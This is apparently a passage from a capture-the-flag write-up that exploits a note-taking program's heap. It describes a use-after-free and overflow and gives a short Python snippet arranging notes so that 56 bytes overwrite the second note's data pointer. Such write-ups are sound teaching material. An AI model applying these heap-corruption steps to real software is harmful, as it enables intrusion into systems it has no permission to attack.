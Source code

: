 ```console
2. Edit
3. Remove
4. View
0. Exit
> 2
idx: 1
data: 
```

![read 2](./Images/read_2.png)

As we can see above, it kept the pointer of the first note and we're now writing 1000 bytes over it. This gets us both a use after free and some sort of an overflow.

Using that we can write a script to create 2 notes, delete the first, and create a new one with the size error. This will get us the overflow we'll use to overwrite the second note (yes I should have exploited it as a use after free instead like a normal human being, it would have been much simpler BUT IT WAS 3 IN THE MORNING I WASN'T THINKING STRAIGHT) :

```python
add_entry(b"1", b"8", b"A"*8)
add_entry(b"2", b"8", b"B"*8)
remove(b"1")
add_entry_error(b"1", b"10000")
```

`add_entry`, `remove`, `add_entry_error` and `view` being the functions I wrote to manipulate the program. If you want to check them out, you can see them in [this final script](./solve.py).

Once we've set up the two previous notes, if we write 56 bytes over the first note's data we write over the second note's data pointer as you can see here :

![before](./Images/before.png)
